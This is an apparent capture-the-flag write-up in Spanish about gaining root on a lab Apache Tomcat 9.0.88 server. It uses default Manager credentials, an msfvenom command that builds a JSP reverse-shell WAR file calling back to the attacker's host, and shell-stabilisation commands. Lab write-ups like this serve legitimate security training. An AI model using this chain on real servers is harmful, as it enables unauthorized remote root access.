 
![[nmap pn.png]]
nmap: 8080

---
en la pagina: 172.17.0.2:8080 hay una  versión del de tomcat: # Apache Tomcat/9.0.88
como exploit a esa versión no encontré mucho, pero en la pagina hay un "manager apps"

![image](https://github.com/user-attachments/assets/70c49eae-589a-4499-a86f-57ab5e1b3201)


en: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat
buscamos las credenciales por default para poder entrar al "manager app"
intentamos con las credenciales

![image](https://github.com/user-attachments/assets/b0026c05-43eb-4f66-b9e6-244a3cd725d4)

> las credenciales: tomcat/s3cr3t

entramos al "magaer app" con esas credenciales

encontramos la parte de WAR file to deploy, donde se suben archivos .war

![image](https://github.com/user-attachments/assets/3f06bccc-e4cf-4d75-b32f-4143b581aa5c)

para poder tener una conexión RCE utilizamos: msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o revshell.war
que nos creara un archivo .war con el contenido dentro.

![image](https://github.com/user-attachments/assets/59d9e8d0-98c2-4969-b196-740739bed25c)

lo subimos en archivos "WAR" y luego lo cargamos

al subirlo aparece aquí: llamado /revshell

![image](https://github.com/user-attachments/assets/304ea11c-12df-4f93-b46d-7a740e8b3ae9)

>colocamos el terminal en escucha y presionamos el archivo y estamos dentro ya como root!
![Uploading image.png…]()


hacemos un "stty"

       - script /dev/null -c bash
       - stty raw -echo; fg
       - reset xterm
       - export SHELL=bash && export TERM=xterm
       - stty rows numero colums numero 

y quedara así:
![[root sup.png]]

